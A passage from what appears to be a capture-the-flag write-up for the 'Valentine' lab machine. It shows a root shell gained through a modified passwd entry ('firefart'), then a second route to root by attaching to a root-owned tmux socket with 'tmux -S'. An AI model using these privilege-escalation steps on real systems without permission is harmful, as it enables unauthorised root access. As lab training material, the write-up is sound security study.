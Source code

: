 ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
news:x:9:9:news:/var/spool/news:/bin/sh

hype@Valentine:/tmp$ su firefart
Password: 
firefart@Valentine:/tmp# id
uid=0(firefart) gid=0(root) groups=0(root)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


**Rooted**

# Privilege Escalation no2

There is an active tmux session that is owned by root.
It is basically a shell that is owned by root. So If we can enter this active tmux session, any command we wun will be executed as root.

**Manually find tmux process**

cat .bash_history
or 
ps -aux

![v13](https://user-images.githubusercontent.com/15195048/94270381-cb081000-fef4-11ea-8137-6e7ec15eb4bb.png)


Anyone can attach to this shell using  **tmux -S /.devs/dev_sess**. 
Once you drop into the shell, you will be root.

![v14](https://user-images.githubusercontent.com/15195048/94270383-cb081000-fef4-11ea-8603-593d47f55c60.png)

**Rooted**
